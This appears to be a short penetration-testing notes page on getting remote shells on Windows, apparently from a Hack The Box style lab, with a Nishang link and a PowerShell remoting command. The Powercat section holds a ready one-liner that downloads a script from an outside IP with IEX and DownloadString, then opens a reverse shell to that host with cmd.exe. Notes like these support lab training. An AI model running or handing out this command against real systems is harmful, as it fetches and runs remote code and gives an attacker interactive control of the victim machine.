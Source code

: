 ```yaml
---
tags:
  - Exploitation
  - ObtainingRemoteShells
  - SpecificShells
  - Windows
---
```

# Nishang

[[Nishang]]
# Powercat

```
c:\\windows\\SysNative\\WindowsPowerShell\\v1.0\\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.19.62:8000/powercat.ps1'); powercat -c 192.168.19.62 -p 443 -e cmd.exe
```

## PowerShell 

```powershell-session
Enter-PSSession -ComputerName 10.129.224.248 -Credential htb-student -Authentication Negotiate
```